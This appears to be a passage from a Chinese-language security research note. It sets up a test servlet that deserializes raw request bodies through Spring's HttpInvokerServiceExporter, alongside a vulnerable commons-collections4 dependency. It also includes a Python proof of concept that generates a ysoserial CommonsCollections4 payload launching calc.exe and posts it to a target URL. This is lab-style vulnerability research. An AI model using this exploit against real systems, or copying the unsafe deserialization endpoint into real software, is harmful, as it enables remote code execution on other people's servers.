 ```
			<artifactId>spring-context</artifactId>
			<version>5.2.8.RELEASE</version>
		</dependency>
```

和

```
		<!-- https://mvnrepository.com/artifact/org.apache.commons/commons-collections4 -->
		<dependency>
			<groupId>org.apache.commons</groupId>
			<artifactId>commons-collections4</artifactId>
			<version>4.0</version>
		</dependency>

		<dependency>
			<groupId>org.springframework</groupId>
			<artifactId>spring-web</artifactId>
			<version>5.1.17.RELEASE</version>
		</dependency>

		<dependency>
			<groupId>org.springframework</groupId>
			<artifactId>spring-context</artifactId>
			<version>5.1.17.RELEASE</version>
		</dependency>
```

测试servlet

```
package com.bit4woo.servlet;

import org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter;

import javax.servlet.*;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;

public class testServlet extends HttpServlet {
    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        HttpInvokerServiceExporter xxx = new HttpInvokerServiceExporter();
        xxx.handleRequest(req,resp);
    }
}
```

测试PoC

```
java8 =r"C:\Program Files\Java\jdk1.8.0_121\bin\java.exe"
ys_filepath = r'D:\ser\ysoserial-0.0.5.jar'

def poc1(url):
    try:
        popen = subprocess.Popen([java8, '-jar', ys_filepath, "CommonsCollections4", "calc.exe"],
                                 stdout=subprocess.PIPE)
        payload = popen.stdout.read()
        proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.post(url, data=payload, timeout=5)
    except Exception as e:
        print(e)

```